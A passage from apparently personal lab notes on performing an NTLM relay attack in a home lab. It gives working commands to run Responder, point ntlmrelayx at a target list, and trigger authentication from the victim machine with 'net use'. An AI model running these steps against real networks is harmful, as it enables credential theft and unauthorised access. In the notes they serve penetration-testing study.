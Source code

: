     - Save and exit.
2. **Start Responder**:
    
    ```Shell
    sudo responder -I eth0 -dwv
    ```
    
3. **Verify Setup**:
    
    - Scroll up in the Responder output to confirm **SMB** and **HTTP** are turned off (highlighted in red).
    
    ![[/image 13 4.png|image 13 4.png]]
    

### 3. **Setting Up NTLM Relay**

Now, use **ntlmrelayx** to relay the captured credentials from one machine to another.

### Steps to Run ntlmrelayx:

1. **Create a Target List**:
    
    ```Shell
    echo "192.168.213.130" > targets.txt
    ```
    
    - The file `targets.txt` contains the IP of the target machine
2. **Start ntlmrelayx**:
    
    ```Shell
    sudo ntlmrelayx.py -tf targets.txt -smb2support
    ```
    
    - `tf targets.txt`: Specifies the file with target IPs.
    - `-smb2support`: Ensures support for SMBv2 connections.
    
    ![[/image 14 4.png|image 14 4.png]]
    
3. **Wait for Connection**:
    - ntlmrelayx will now wait for any incoming connection attempts from Machine 1 (Punisher).

### 4. **Triggering the Attack**

To simulate a connection from **Punisher (Machine 1)** to the attacker machine:

1. Open a terminal on Machine 1.
2. Point it towards the attacker's IP to trigger the hash capture:
    
    ```Shell
    net use \\\\192.168.57.139\\share
    ```
    
    - Replace `192.168.57.139` with the attacker's IP address.
    
    ![[/image 15 4.png|image 15 4.png]]
    